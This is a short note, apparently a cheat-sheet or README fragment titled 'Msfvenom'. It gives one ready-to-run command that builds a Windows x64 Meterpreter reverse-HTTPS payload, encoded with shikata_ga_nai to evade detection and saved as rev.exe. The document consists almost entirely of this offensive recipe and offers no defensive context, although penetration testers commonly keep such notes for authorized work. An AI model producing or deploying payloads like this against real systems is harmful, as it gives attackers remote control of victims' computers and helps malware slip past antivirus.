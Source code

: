 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/x64/meterpreter_reverse_https -e x86/shikata_ga_nai -f exe -o rev.exe
